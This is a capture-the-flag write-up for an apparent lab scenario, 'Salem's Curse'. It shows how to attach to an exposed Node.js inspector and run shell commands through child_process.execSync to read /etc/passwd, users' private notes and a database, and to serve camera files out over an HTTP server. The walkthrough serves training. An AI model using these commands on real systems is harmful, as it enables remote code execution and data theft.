# Salem's Curse

# 1.According to the historical records on Salem Manor Museum's website, what is the full name of the first person executed in the witch trials?
Ans : Eleanor Ashwood

### Explaination

Search in web


--- 

# 2.In Dr. Crane's unpublished draft blog post, what are the curse words she decoded from Magistrate Blackwood's manuscripts?
Ans : YOUR DREAMS ARE MINE

### Explaination
At frist scan the website and find port 3000 this is main 

and then using port 3000 using node js

connect with node js in terminal using 

```bash
node inspect ip:3000
```
First type and check what files are included on the server.
```bash
scripts
```


and then type repl and type the command 

```bash 
process.mainModule.require('fs').readFileSync(process.mainModule.filename,'utf8')
```
This show in blog post file



And then view the /root/museum waht file are included

```bash 
process.mainModule.require('fs').readdirSync('/root/museum')
```


Can view the file what file is set permission
```bash
process.mainModule.require('child_process').execSync('ls -la /root/museum').toString()
```


And then to see the draft file

```bash
process.mainModule.require('child_process').execSync("node -e \"const sqlite3=require('sqlite3').verbose(); const db=new sqlite3.Database('./blog_posts.db'); db.all('SELECT * FROM posts WHERE status!=\\'published\\' OR content LIKE \\\"%flag%\\\"',(e,r)=>console.log(r))\"").toString()
```


---

# 3.According to Dr. Crane's research notes, what are the GPS coordinates of the location where Magistrate Blackwood's cursed grimoire was buried?
Ans : 42.4899062,-70.9947092

At first check the user is exist or not
```bash
process.mainModule.require('child_process').execSync("node -e \"const fs=require('fs'); console.log(fs.readFileSync('/etc/passwd','utf8').includes('crane'))\"").toString()
```


Search in crane of useraccc what files are exist

```bash
process.mainModule.require('child_process').execSync('ls -la /home/crane/').toString()
```


And then enter the notes file 

```bash
process.mainModule.require('child_process').execSync('ls -la /home/crane/notes/').toString()
```


View the file of discovery

```bash
process.mainModule.require('child_process').execSync('cat /home/crane/notes/discovery.txt').toString()
```


---

# 4.According to the security camera footage, what is the exact date and time of the paranormal event when Dr. Crane mysteriously vanished from the archive room?
Ans : 2025-10-25T23:56

At first the file part of camera recoding

```bash
process.mainModule.require('child_process').execSync("node -e \"const fs=require('fs'); console.log(fs.readdirSync('/mnt'))\"").toString()
```


View the camera recording

```bash
process.mainModule.require('child_process').execSync("node -e \"const fs=require('fs'); console.log(fs.readdirSync('/mnt/camera_recordings'))\"").toString()
```


And extract what permission give
```bash 
process.mainModule.require('child_process').execSync("ls -l --time-style=long-iso /mnt/camera_recordings/archive_cam01_incident.mp4").toString()
```


And then splite the large file to small file

```bash
process.mainModule.require('child_process').execSync("split -b 100k /mnt/camera_recordings/archive_cam01_incident.mp4 /tmp/vid_part_ && ls /tmp/vid_part_*", {stdio: 'inherit'});
```

At First need to link the mp4 file to get 

```bash
process.mainModule.require('child_process').execSync("base64 /tmp/vid_part_aa").toString()
```
View the string 

Link the file of 50KB file of mp4

```bash
process.mainModule.require('child_process').execSync("split -b 50k /mnt/camera_recordings/archive_cam01_incident.mp4 /tmp/vid_part_", {stdio: 'inherit'});
```

Check the file how many file are exist

```bash
process.mainModule.require('child_process').execSync("ls -1 /tmp/vid_part_* | wc -l", {stdio: 'inherit'});
```

And then this all file are upload on browser using the python 

```bash
process.mainModule.require('child_process').execSync("python3 -m http.server 8000 --directory /mnt/camera_recordings/", {stdio: 'inherit'});
```



---

### Achievement(https://app.hackviser.com/show/YeYintLwin/scenarios/salems-curse?id=d5431f11e070491ab9c3f7a9464193ba)
